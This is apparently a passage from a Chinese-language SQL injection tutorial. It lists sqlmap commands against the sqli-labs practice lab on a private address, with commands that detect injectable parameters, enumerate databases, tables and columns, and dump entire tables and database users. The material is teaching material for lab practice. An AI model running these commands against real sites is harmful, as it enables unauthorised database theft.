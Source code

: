 ### 5.2.1.**常用参数**

命令：Sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1"  

\#探测该页面是否存在漏洞。

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --cookie="抓取的cookie"  

\#当网站需要登录时，探测该页面是否存在漏洞。

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --data="username=admin&password=admin&submit=submit" 

\#抓取其post提交的数据填入

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --dbs     

\#爆出所有的数据库

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --tables   

\#爆出所有的数据表

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --columns   

\#爆出数据库中所有的列

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --current-db 

\#查看当前的数据库

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security --tables  

\#爆出数据库security中的所有的表

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users --columns  

\#爆出security数据库中users表中的所有的列

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users -C username --dump   

\#爆出数据库security中的users表中的username列中的所有数据

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100   

\#爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users --dump-all 

\#爆出数据库security中的users表中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security --dump-all 

\#爆出数据库security中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --dump-all  

\#爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --users    

\#查看数据库的所有用户
